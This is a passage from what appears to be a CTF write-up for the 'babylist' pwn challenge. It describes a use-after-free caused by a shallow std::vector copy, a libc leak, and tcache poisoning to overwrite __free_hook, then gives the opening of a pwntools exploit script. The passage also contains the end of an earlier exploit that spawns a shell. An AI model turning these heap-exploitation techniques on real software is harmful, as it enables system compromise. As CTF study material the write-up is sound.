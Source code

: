 ```python
sh.send("/bin/sh\x00")

sh.interactive()
```

## 884 Pwn / babylist

UAF caused by shadow copy of `std::vector`, because as `std::vector` extends and buffer is not enough, the buffer will be freed and a new buffer with twice size will be allocated. `0x90` is a good chunk size to leak `libc` as it will be allocated by array used by `std::vector` and is also the size of the structure that contains `char name[] + std::vector`. Then, use the same trick to cause double free and poison the `tcache`, so we can rewrite `__free_hook`.

```python
from pwn import *
from struct import unpack
g_local=1
context(log_level='debug', arch='amd64')
e = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")

if g_local:
	sh = process("./babylist")
	gdb.attach(sh)
else:
	sh = remote("challenges.fbctf.com", 1343)

def create_list(name):
	sh.sendline('1')
	sh.recvuntil("name for list:\n")
	sh.sendline(name)
	sh.recvuntil("> ")
def add_elem(idx, num):
	num = unpack("<i", p32(num))[0]
	sh.sendline('2')
	sh.recvuntil("index of list:\n")
	sh.sendline(str(idx))
	sh.recvuntil("number to add:\n")
	sh.sendline(str(num))
	sh.recvuntil("> ")
def view_elem(idx, ii):
	sh.sendline('3')
	sh.recvuntil("index of list:\n")
	sh.sendline(str(idx))
	sh.recvuntil("index into list:\n")
	sh.sendline(str(ii))
	sh.recvuntil("] = ")
	ret = sh.recvuntil('\n')[:-1]
	sh.recvuntil("> ")
	return int(ret, 10) & 0xffffffff
def dup_list(idx, name):
	sh.sendline('4')
	sh.recvuntil("index of list:")
	sh.sendline(str(idx))
	sh.recvuntil("name for new list:")
	sh.sendline(name)
	sh.recvuntil("> ")
def remove(idx):
	sh.sendline('5')
	sh.recvuntil("index of list:\n")
	sh.sendline(str(idx))
	sh.recvuntil("> ")

sh.recvuntil("> ")
```